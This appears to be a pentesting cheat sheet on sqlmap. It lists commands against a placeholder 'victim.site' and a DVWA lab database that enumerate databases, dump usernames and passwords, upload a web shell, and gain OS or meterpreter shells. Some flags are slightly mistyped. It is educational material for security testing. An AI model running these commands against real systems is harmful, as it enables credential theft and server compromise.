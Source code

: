 ```yaml
---
title: sqlmap - A tool for testing SQL injection
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting 
---
```


# sqlmap - A tool for testing SQL injection

## GET parameter

```bash
sqlmap -u ‘http://victim.site/view.php?id=112’ -p id --technique=U
# -p: to indicate an injectable parameter 
# --technique=U  //to indicate a UNION based SQL injection technique
# -b: banner of the database
# --tor: to use a proxy to connect to the target URL
# -v3: to see the payloads that sqlmap is using
# --flush-session: to refresh sessions
# --tamper: default tampers are in /usr/share/sqlmap/tamper
```

## POST parameter

```bash
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```


## Using -r file

Capture the request with burpsuite and save it to a file.

```bash
# Get all databases
sqlmap -r nameoffiletoinject --dbs    

# Get all tables 
sqlmap -r nameoffiletoinject --tables

# Get all columns of a given database dwva
sqlmap -r nameoffiletoinject --current-db dwva -columns

# Get all tables of a given database, for example dwva
sqlmap -r nameoffiletoinject -D dwva --tables

# Get all columns of a given table in a given database
sqlmap -r nameoffiletoinject -D dwva -T users --columns

# Dump users table
sqlmap -r nameoffiletoinject -D dwva -T users --dump

# Get columns username and password of table users from table dwva
sqlmap -r nameoffiletoinject -D dwva -T users -C username,password --dump

# Automatically attempt to upload a web shell using the vulnerable parameter and execute it
sqlmap -r nameoffiletoinject -p vuln-param -os-shell 

# Alternatively use the os-pwn option to gain a shell using meterpreter or vnc 
sqlmap -r nameoffiletoinject -p vuln-param -os-pwn 
```


## Using URL

You can also provide the url with --url or -u

```bash
sqlmap --url ‘http://victim.site’  --dbs --batch //
sqlmap --url ‘http://victim.site’  --users // gets users
sqlmap --url ‘http://victim.site’  --tables // gets all tables
sqlmap --url ‘http://victim.site’  --batch //
```

## Getting a direct SQL Shell

```bash
# Get a OS shell
sqlmap --url ‘http://victim.site’  --os-shell

# GEt a SQL shell
sqlmap --url ‘http://victim.site’  --sql-shell


```